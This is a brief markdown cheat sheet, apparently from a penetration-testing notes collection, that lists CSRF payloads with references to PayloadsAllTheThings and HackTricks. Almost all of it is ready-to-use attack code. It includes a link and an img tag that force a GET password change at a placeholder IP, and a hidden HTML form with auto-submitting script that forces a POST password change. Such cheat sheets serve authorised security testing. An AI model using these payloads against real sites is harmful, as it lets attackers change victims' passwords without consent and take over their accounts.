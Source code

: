 ```yaml
---
icon: globe-pointer
---
```


# CSRF (Cross Site Request Forgery)

## Payloads

### GET

```html
<!-- Requires user interaction -->
<a href="http://10.10.10.10/changepasswd.php?pass=pass">Click Me</a>

<!-- No user interaction required -->
<img src="http://10.10.10.10/changepasswd.php?pass=pass">
```

### POST

```html
<form id="form" action="http://<host>/changepasswd.php" method="POST">
 <input name="pass" type="hidden" value="pass" />
 <input type="submit" value="Submit" />
</form>

<!-- Auto submit -->
<script>
 document.getElementById("form").submit();
</script>
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)
